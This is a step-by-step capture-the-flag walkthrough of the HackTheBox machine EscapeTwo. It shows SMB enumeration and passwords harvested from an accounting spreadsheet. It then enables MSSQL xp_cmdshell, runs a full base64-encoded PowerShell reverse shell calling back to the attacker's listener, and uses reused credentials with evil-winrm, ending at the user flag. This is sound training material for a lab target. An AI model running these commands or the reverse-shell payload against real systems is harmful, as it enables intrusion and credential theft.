

# Workshop

**HackTheBox - EscapeTwo**

### **SETUP**

Create Kali VM on VMWare

Log into HackTheBox Labs on your regular windows desktop browser and drag the VPN to the Kali VM



Click on the connect to HackTheBox in the top right corner

Click on Machines > OpenVpn > Download VPN


drag the downloaded VPN to your Kali VM desktop

open a terminal on the desktop and connect to the VPN using the downloaded file

```jsx
┌──(osboxes㉿osboxes)-[~/Desktop]
└─$ sudo openvpn lab_nathc.ovpn 
[sudo] password for osboxes: 
```

start the machine to get an IP

Under ‘Machine Information’, user credentials are provided


```jsx
rose / KxEPkKe6R8su
```

### **STEP 1: NMAP**

Scan to find what ports are open on the network

```jsx
┌──(osboxes㉿osboxes)-[~/Desktop]
└─$ nmap -sC -sV 10.10.11.51 -Pn
Starting Nmap 7.92 ( https://nmap.org ) at 2025-01-27 09:02 EST
Nmap scan report for 10.10.11.51
Host is up (0.094s latency).
Not shown: 988 filtered tcp ports (no-response)
PORT     STATE SERVICE    VERSION
53/tcp   open  tcpwrapped
88/tcp   open  tcpwrapped
135/tcp  open  tcpwrapped
139/tcp  open  tcpwrapped
389/tcp  open  tcpwrapped
| ssl-cert: Subject: commonName=DC01.sequel.htb
| Subject Alternative Name: othername:<unsupported>, DNS:DC01.sequel.htb
| Not valid before: 2024-06-08T17:35:00
|_Not valid after:  2025-06-08T17:35:00
|_ssl-date: 2025-01-27T14:04:58+00:00; +1s from scanner time.
445/tcp  open  tcpwrapped
464/tcp  open  tcpwrapped
593/tcp  open  tcpwrapped
636/tcp  open  tcpwrapped
| ssl-cert: Subject: commonName=DC01.sequel.htb
| Subject Alternative Name: othername:<unsupported>, DNS:DC01.sequel.htb
| Not valid before: 2024-06-08T17:35:00
|_Not valid after:  2025-06-08T17:35:00
1433/tcp open  tcpwrapped
3268/tcp open  tcpwrapped
3269/tcp open  tcpwrapped
| ssl-cert: Subject: commonName=DC01.sequel.htb
| Subject Alternative Name: othername:<unsupported>, DNS:DC01.sequel.htb
| Not valid before: 2024-06-08T17:35:00
|_Not valid after:  2025-06-08T17:35:00

Host script results:
|_smb2-time: Protocol negotiation failed (SMB2)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 153.63 seconds
```

add sequel.htb domain to hosts file (right click on desktop > open as root >type /etc/hosts into bar and press enter)


### **STEP 2: Crackmapexec**

since we have creds, we can use crackmapexec to brute force SMB users

```jsx
┌──(osboxes㉿osboxes)-[~/Desktop]
└─$ crackmapexec smb sequel.htb -u "rose" -p "KxEPkKe6R8su" --rid-brute | grep SidTypeUser
SMB         sequel.htb      445    DC01             500: SEQUEL\Administrator (SidTypeUser)
SMB         sequel.htb      445    DC01             501: SEQUEL\Guest (SidTypeUser)
SMB         sequel.htb      445    DC01             502: SEQUEL\krbtgt (SidTypeUser)
SMB         sequel.htb      445    DC01             1000: SEQUEL\DC01$ (SidTypeUser)
SMB         sequel.htb      445    DC01             1103: SEQUEL\michael (SidTypeUser)
SMB         sequel.htb      445    DC01             1114: SEQUEL\ryan (SidTypeUser)
SMB         sequel.htb      445    DC01             1116: SEQUEL\oscar (SidTypeUser)
SMB         sequel.htb      445    DC01             1122: SEQUEL\sql_svc (SidTypeUser)
SMB         sequel.htb      445    DC01             1601: SEQUEL\rose (SidTypeUser)
SMB         sequel.htb      445    DC01             1607: SEQUEL\ca_svc (SidTypeUser)
```

### **STEP 3: SMB**

use smbclient to enumerate shares

```jsx
┌──(osboxes㉿osboxes)-[~/Desktop]
└─$ smbclient -L //10.10.11.51 -U rose
Password for [WORKGROUP\rose]:

        Sharename       Type      Comment
        ---------       ----      -------
        Accounting Department Disk      
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        NETLOGON        Disk      Logon server share 
        SYSVOL          Disk      Logon server share 
        Users           Disk      
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 10.10.11.51 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available
```

Accounting Department share looks sus 

We should check that out! 😀

```jsx
┌──(osboxes㉿osboxes)-[~/Desktop]
└─$ smbclient //10.10.11.51/Accounting\ Department -U rose
Password for [WORKGROUP\rose]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Sun Jun  9 06:52:21 2024
  ..                                  D        0  Sun Jun  9 06:52:21 2024
  accounting_2024.xlsx                A    10217  Sun Jun  9 06:14:49 2024
  accounts.xlsx                       A     6780  Sun Jun  9 06:52:07 2024

                6367231 blocks of size 4096. 927071 blocks available
smb: \> get accounts.xlsx
getting file \accounts.xlsx of size 6780 as accounts.xlsx (18.1 KiloBytes/sec) (average 18.1 KiloBytes/sec)
smb: \> get accounting_2024.xlsx
```

download these funky looking files using the ‘get’ command

unzip these files using ‘unzip <filename>’

this should produce a load of different files onto your desktop

look through them

**sharedStrings.xml**


this file contains a bunch of usernames and passwords 😃

bottom of file has mssql reference 👀

```jsx
<si>
<t xml:space="preserve">sa@sequel.htb</t>
</si>
<si>
<t xml:space="preserve">sa</t>
</si>
<si>
<t xml:space="preserve">MSSQLP@ssw0rd!</t>
```

cd to /bin directory

enable xp_cmdshell to allow for commands to be executed

```jsx
┌──(osboxes㉿osboxes)-[/bin]
└─$ impacket-mssqlclient 'sa:MSSQLP@ssw0rd!'@10.10.11.51
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(DC01\SQLEXPRESS): Line 1: Changed database context to 'master'.
[*] INFO(DC01\SQLEXPRESS): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (150 7208) 
[!] Press help for extra shell commands
SQL> 
SQL> enable_xp_cmdshell
[*] INFO(DC01\SQLEXPRESS): Line 185: Configuration option 'show advanced options' changed from 1 to 1. Run the RECONFIGURE statement to install.
[*] INFO(DC01\SQLEXPRESS): Line 185: Configuration option 'xp_cmdshell' changed from 0 to 1. Run the RECONFIGURE statement to install.

```

### **SIDE QUEST:**

get sql-Configuration.INI ***( a text file found in SQL servers with parameters (name/value pair) and descriptive comments)***

```jsx
SQL> exec xp_cmdshell 'type \SQL2019\ExpressAdv_ENU\sql-Configuration.INI'
output                                                                                                                                                                                                                                                            

---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------   

[OPTIONS]                                                                                                                                                                                                                                                         

ACTION="Install"                                                                                                                                                                                                                                                  

QUIET="True"                                                                                                                                                                                                                                                      

FEATURES=SQL                                                                                                                                                                                                                                                      

INSTANCENAME="SQLEXPRESS"                                                                                                                                                                                                                                         

INSTANCEID="SQLEXPRESS"                                                                                                                                                                                                                                           

RSSVCACCOUNT="NT Service\ReportServer$SQLEXPRESS"                                                                                                                                                                                                                 

AGTSVCACCOUNT="NT AUTHORITY\NETWORK SERVICE"                                                                                                                                                                                                                      

AGTSVCSTARTUPTYPE="Manual"                                                                                                                                                                                                                                        

COMMFABRICPORT="0"                                                                                                                                                                                                                                                

COMMFABRICNETWORKLEVEL=""0"                                                                                                                                                                                                                                       

COMMFABRICENCRYPTION="0"                                                                                                                                                                                                                                          

MATRIXCMBRICKCOMMPORT="0"                                                                                                                                                                                                                                         

SQLSVCSTARTUPTYPE="Automatic"                                                                                                                                                                                                                                     

FILESTREAMLEVEL="0"                                                                                                                                                                                                                                               

ENABLERANU="False"                                                                                                                                                                                                                                                

SQLCOLLATION="SQL_Latin1_General_CP1_CI_AS"                                                                                                                                                                                                                       

SQLSVCACCOUNT="SEQUEL\sql_svc"                                                                                                                                                                                                                                    

SQLSVCPASSWORD="WqSZAF6CysDQbGb3"                                                                                                                                                                                                                                 

SQLSYSADMINACCOUNTS="SEQUEL\Administrator"                                                                                                                                                                                                                        

SECURITYMODE="SQL"                                                                                                                                                                                                                                                

SAPWD="MSSQLP@ssw0rd!"                                                                                                                                                                                                                                            

ADDCURRENTUSERASSQLADMIN="False"                                                                                                                                                                                                                                  

TCPENABLED="1"                                                                                                                                                                                                                                                    

NPENABLED="1"                                                                                                                                                                                                                                                     

BROWSERSVCSTARTUPTYPE="Automatic"                                                                                                                                                                                                                                 

IAcceptSQLServerLicenseTerms=True                                                                                                                                                                                                                                 

NULL                                                                                                                                                                                                                                                              

SQL> 
```

gives creds for account: sql_svc (this will be useful later)

```jsx
SQLSVCACCOUNT="SEQUEL\sql_svc"                                                                                                                                                                                                                                    
SQLSVCPASSWORD="WqSZAF6CysDQbGb3" 
```

### **BACK TO THE PLOT:**

with the ability to execute commands on the mssql server, we can upload a reverse shell, yippee!!

start a listener on your desktop using 

```jsx
nc -lvnp 9001
```

go to [revshells.com](http://revshells.com) and create a rev shell using your host ip and PowerShell #3 (Base64)


(make sure xp_cmdshell is still enabled)

run the generated rev shell on the SQL conenction

```jsx
SQL> enable_xp_cmdshell
[*] INFO(DC01\SQLEXPRESS): Line 185: Configuration option 'show advanced options' changed from 1 to 1. Run the RECONFIGURE statement to install.
[*] INFO(DC01\SQLEXPRESS): Line 185: Configuration option 'xp_cmdshell' changed from 1 to 1. Run the RECONFIGURE statement to install.
SQL> xp_cmdshell powershell -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQAwAC4AMQAwAC4AMQA0AC4AMQA5ADUAIgAsADkAMAAwADEAKQA7ACQAcwB0AHIAZQBhAG0AIAA9ACAAJABjAGwAaQBlAG4AdAAuAEcAZQB0AFMAdAByAGUAYQBtACgAKQA7AFsAYgB5AHQAZQBbAF0AXQAkAGIAeQB0AGUAcwAgAD0AIAAwAC4ALgA2ADUANQAzADUAfAAlAHsAMAB9ADsAdwBoAGkAbABlACgAKAAkAGkAIAA9ACAAJABzAHQAcgBlAGEAbQAuAFIAZQBhAGQAKAAkAGIAeQB0AGUAcwAsACAAMAAsACAAJABiAHkAdABlAHMALgBMAGUAbgBnAHQAaAApACkAIAAtAG4AZQAgADAAKQB7ADsAJABkAGEAdABhACAAPQAgACgATgBlAHcALQBPAGIAagBlAGMAdAAgAC0AVAB5AHAAZQBOAGEAbQBlACAAUwB5AHMAdABlAG0ALgBUAGUAeAB0AC4AQQBTAEMASQBJAEUAbgBjAG8AZABpAG4AZwApAC4ARwBlAHQAUwB0AHIAaQBuAGcAKAAkAGIAeQB0AGUAcwAsADAALAAgACQAaQApADsAJABzAGUAbgBkAGIAYQBjAGsAIAA9ACAAKABpAGUAeAAgACQAZABhAHQAYQAgADIAPgAmADEAIAB8ACAATwB1AHQALQBTAHQAcgBpAG4AZwAgACkAOwAkAHMAZQBuAGQAYgBhAGMAawAyACAAPQAgACQAcwBlAG4AZABiAGEAYwBrACAAKwAgACIAUABTACAAIgAgACsAIAAoAHAAdwBkACkALgBQAGEAdABoACAAKwAgACIAPgAgACIAOwAkAHMAZQBuAGQAYgB5AHQAZQAgAD0AIAAoAFsAdABlAHgAdAAuAGUAbgBjAG8AZABpAG4AZwBdADoAOgBBAFMAQwBJAEkAKQAuAEcAZQB0AEIAeQB0AGUAcwAoACQAcwBlAG4AZABiAGEAYwBrADIAKQA7ACQAcwB0AHIAZQBhAG0ALgBXAHIAaQB0AGUAKAAkAHMAZQBuAGQAYgB5AHQAZQAsADAALAAkAHMAZQBuAGQAYgB5AHQAZQAuAEwAZQBuAGcAdABoACkAOwAkAHMAdAByAGUAYQBtAC4ARgBsAHUAcwBoACgAKQB9ADsAJABjAGwAaQBlAG4AdAAuAEMAbABvAHMAZQAoACkA
```

gets shell as sql_svc 😄

```jsx
┌──(osboxes㉿osboxes)-[~/Desktop]
└─$ nc -lvnp 9001
listening on [any] 9001 ...

connect to [10.10.14.195] from (UNKNOWN) [10.10.11.51] 57641
PS C:\Windows\system32> whoami

sequel\sql_svc
PS C:\Windows\system32> PS C:\Windows\system32> 
```

no user flag yet… SO:

cd to /Users directory to see what other users there are


see user ‘ryan’

this is where the previous side quest comes in handy..

if you try the password found in the previous SQL configuration file for the user ‘ryan’….

### **FINAL STRETCH:**

**evil-winrm:** Evil-WinRM is an open-source, command-line-based tool that provides remote shell access to Windows machines over WinRM (Windows Remote Management).

more info: [https://www.kali.org/tools/evil-winrm/](https://www.kali.org/tools/evil-winrm/)

use evil-winrm to access ‘ryan’ user account

```jsx
evil-winrm -i 10.10.11.51 -u "ryan" -p "WqSZAF6CysDQbGb3"
```

once you get connection, cd to Desktop to find and read the flag user.txt

```jsx
┌──(osboxes㉿osboxes)-[~/Desktop]
└─$ evil-winrm -i 10.10.11.51 -u "ryan" -p "WqSZAF6CysDQbGb3"

Evil-WinRM shell v3.4

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\ryan\Documents> ls
*Evil-WinRM* PS C:\Users\ryan\Documents> cd ..
*Evil-WinRM* PS C:\Users\ryan> ls

    Directory: C:\Users\ryan

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-r---         6/9/2024   4:24 AM                Desktop
d-r---         1/6/2025   5:32 AM                Documents
d-r---        9/15/2018  12:19 AM                Downloads
d-r---        9/15/2018  12:19 AM                Favorites
d-r---        9/15/2018  12:19 AM                Links
d-r---        9/15/2018  12:19 AM                Music
d-r---        9/15/2018  12:19 AM                Pictures
d-----        9/15/2018  12:19 AM                Saved Games
d-r---        9/15/2018  12:19 AM                Videos

*Evil-WinRM* PS C:\Users\ryan> cd Desktop
*Evil-WinRM* PS C:\Users\ryan\Desktop> ls

    Directory: C:\Users\ryan\Desktop

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---        1/29/2025   4:58 AM             34 user.txt

*Evil-WinRM* PS C:\Users\ryan\Desktop> cat user.txt
<FLAG OUTPUT HERE>
```

### **FINISHED!! YIPPPEEE!!!**

**(TO BE CONTINUED….)**